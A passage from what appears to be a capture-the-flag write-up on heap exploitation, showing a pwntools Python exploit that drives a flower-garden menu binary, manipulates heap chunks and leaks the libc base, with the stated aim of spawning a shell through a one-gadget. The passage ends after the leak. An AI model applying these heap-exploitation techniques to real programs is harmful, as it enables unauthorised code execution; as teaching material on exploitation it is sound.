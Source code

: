 Anyway, calling `malloc()` this way allowed me to satisfy the conditions needed to make one of the `one_shot` gadgets work so I just used that.

My exploit which uses this technique to spawn a shell is as follows: 
{% highlight python %}
#!/usr/bin/env python

from pwn import *
import sys

def addFlower(size,name,color):
    r.send("1")  
    r.recvuntil(":")
    r.sendline(str(size))
    r.recvuntil(":")
    r.send(name) 
    r.recvuntil(":")
    r.send(color)
    r.recvuntil(":")

def delFlower(index, out=True ):
    r.sendline("3")
    r.recvuntil(":")
    r.sendline(str(index))
    if out:
        r.recvuntil(":")

def cleanGarden(index):
    r.sendline("4")
    r.recvuntil(":")
    r.sendline(str(index))
    r.recvuntil(":")

def printGarden():
    r.sendline("2")
    wasted = r.recvuntil("EEEEEEE\n")
    return r.recvuntil("Your choice :")
    
def exploit(r):
    libc = ELF("./libc_64.so.6")
    gets_offset = libc.symbols["gets"]
    
    r.recvuntil(":")
    
    ## ALLOCATE 2 FAST CHUNKS + 1 SMALL CHUNK + 1 FAST CHUNK   
    addFlower(0x28,"A"*0x28,"X"*23) # A 
    addFlower(0x28,"B"*0x28,"X"*23) # B 
    addFlower(0x80,"C"*0x80,"X"*23) # C # small chunk
    addFlower(0x28,"D"*0x28,"X"*23) # D
    
    ## FREE C->ptrName
    delFlower(2)
    
    ## FREE C
    cleanGarden(2)
    
    ## FREE D->ptrName
    delFlower(3)
    
    ## REALLOC
    addFlower(0x80,"EEEEEEE\n","X"*23) # E  
    
    libc_base = u64((printGarden()[:6]).ljust(8,'\0'))-0x3c3b78
    
    log.success("libc base found at: "+hex(libc_base))